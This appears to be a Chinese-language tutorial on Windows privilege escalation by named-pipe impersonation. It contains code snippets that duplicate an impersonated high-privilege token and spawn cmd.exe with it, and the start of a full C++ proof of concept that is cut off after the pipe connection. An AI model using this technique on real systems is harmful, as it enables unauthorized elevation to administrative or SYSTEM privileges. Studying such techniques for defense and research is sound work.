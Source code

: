 命名管道是支持模拟客户端权限的，为此我们需要利用到ImpersonateNamedPipeClient这个API去指定模拟高权限的句柄，此API调用完成之后windows将自动替换客户端的access token到我们服务端，这一个特性将导致后续一系列的提权技术，后续的技术都是围绕怎么样让具备高权限的进程向我们的进程发起认证请求:

```plain
ImpersonateNamedPipeClient(hPipe);
```

一旦完成模拟操作，我们当前进程的线程就有了客户端的高权限令牌，拿到这个令牌可以使用OpenThreadToken拿到

```plain
HANDLE hToken;
OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken)
```

一旦hToken就位，我们使用DuplicateTokenEx函数复制一个已经存在的访问令牌，这个函数可以创建主令牌和模拟令牌

```plain
HANDLE hSystemTokenDup = INVALID_HANDLE_VALUE;
DuplicateTokenEx(hToken, 
                 TOKEN_ALL_ACCESS, 
                 NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup)
```

为了让权限的变化更加明显，我们使用这个高权限的token创建一个新的cmd.exe进程，成功完成提权:

```plain
wchar_t  cmd[] = L"C:\\Windows\\system32\\cmd.exe";
CreateProcessWithTokenW(hSystemTokenDup, 
    LOGON_WITH_PROFILE, NULL, cmd, 0x00000400, NULL, NULL, &si, &pi) == false)
```

完整实现和演示效果

```plain
#include <Windows.h>
#include <iostream>
#include <vector>
#include <sddl.h>

int main() {
    using namespace std;

    wchar_t  cmd[] = L"C:\\Windows\\system32\\cmd.exe";
    const char pipename[] = "\\\\.\\pipe\\endlessparadox";

    //SECURITY_ATTRIBUTES sa = { 0 };
    //SECURITY_DESCRIPTOR sd = { 0 };

    //wchar_t message[] = L"misaki";

    //InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION);
    //ConvertStringSecurityDescriptorToSecurityDescriptor(L"D:(A;OICI;GA;;;WD)", SDDL_REVISION_1, &((&sa)->lpSecurityDescriptor), NULL);

    HANDLE NamedPipehandle = CreateNamedPipeA(pipename,
        PIPE_ACCESS_DUPLEX,
        PIPE_TYPE_BYTE | PIPE_WAIT,
        10,
        2048,2048,0, NULL);
    if (NamedPipehandle == NULL) {
        cout << "NamedPipehandle " << GetLastError() << endl;
        getchar();
    }

    if (ConnectNamedPipe(NamedPipehandle, NULL) == false) {
        cout << "ConnectNamedPipe " << GetLastError() << endl;
        getchar();
    }

```